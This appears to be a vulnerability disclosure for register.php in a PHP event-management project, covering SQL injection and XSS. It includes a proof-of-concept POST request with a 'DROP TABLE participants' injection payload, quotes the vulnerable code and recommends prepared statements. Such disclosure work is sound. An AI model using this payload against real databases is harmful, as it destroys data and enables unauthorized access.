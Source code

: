 # Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.


## Proof of Concept (PoC):

### SQL Injection:
The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

PoC:

```
POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost

event_id=1'; DROP TABLE participants; --
```
This could result in a SQL query like:

```
INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')
```

To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.


Vulnerable code section:
```
$event_id = $_POST['event_id'];
$mobile = $_POST['mobile'];
$name = "/^[a-zA-Z ]+$/";
$emailValidation = "/^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9]+(\.[a-z]{2,4})$/";
$number = "/^[0-9]+$/";

...

if(!preg_match($number,$mobile)){
    // Vulnerable to bypass using non-numeric characters
    echo "<div class='alert alert-warning'>
            <a href='#' class='close' data-dismiss='alert' aria-label='close'>&times;</a>
            <b>Mobile number $mobile is not valid</b>
          </div>";
    exit();
}
```


